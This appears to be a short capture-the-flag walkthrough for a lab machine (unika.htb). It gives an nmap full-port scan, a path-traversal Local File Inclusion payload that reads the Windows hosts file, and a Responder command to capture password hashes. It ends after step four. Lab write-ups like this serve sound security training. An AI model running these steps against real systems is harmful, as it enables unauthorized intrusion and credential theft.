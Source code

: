 1. **Scan all the ports (0-65535) and determine service and version of open ports sending 5000 packets per second to speed up the scan**
```bash
nmap -sV -p- --min-rate 5000 [target ip]
```
--> port 80/tcp - open - http - Apache
--> port 5985/tcp - open - http - Microsoft HTTPAPI


2. **Resolve the hostname into an IP address**
```bash
echo "[target ip]   unika.htb" | sudo tee -a /etc/hosts
```


3. **Visit the website and try if there is a File Inclusion Vulnerability**
```bash
http://unika.htb/index.php page=../../../../../../../../windows/system32/drivers/etc/hosts
```
--> We can see that we can do a Local File Inclusion


4. **Use Responder to capture the hashes from the target**
```bash
sudo python3 Responder.py -I tun0
```
